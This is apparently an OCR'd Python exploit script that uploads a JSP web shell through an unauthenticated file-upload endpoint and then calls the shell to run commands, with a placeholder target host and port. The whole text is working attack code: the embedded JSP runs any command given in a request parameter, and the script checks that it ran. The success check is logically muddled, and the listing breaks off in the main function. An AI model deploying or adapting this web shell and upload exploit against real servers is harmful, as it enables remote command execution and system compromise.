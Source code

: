     def find_base_url(args):
        base_url = 'http://{}:{}'.format(args['rhost'], args['RPORT'])
        return base_url

    def make_shell():
        shell = """<FORM>
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
        <%
        String cmd = request.getParameter("cmd");
        String output = "";
        if(cmd != null) {
            String s = null;
            try {
                Process p = Runtime.getRuntime().exec(cmd,null,null);
                BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
                while((s = sI.readLine()) != null) { output += s+"</br>"; }
            }  catch(IOException e) {   e.printStackTrace();   }
        }
    %>
            <pre><%=output %></pre>"""
        return shell

    def exploit(url,files):
        try:
            response = requests.post(url + f'/fileupload/toolsAny', files=files, verify=False)
        except Exception as e:
            print("error")
            return False

        payload = {'cmd': 'ls'}
        url = url + "//authenticationendpoint/abc.jsp"
        print(url)

        try:
            r = requests.get(url,params = payload)
            if not r and r.status_code == 200:
                print("success")
                return False
        except Exception as e:
            print("error")
        print("completed exploit")
        return True

    def main ():
        args = {
            'RPORT': '23089',
            'TARGETURI': '/',
            'METHOD': 'GET',
            'rhost': '192.168.179.xxx'
        }
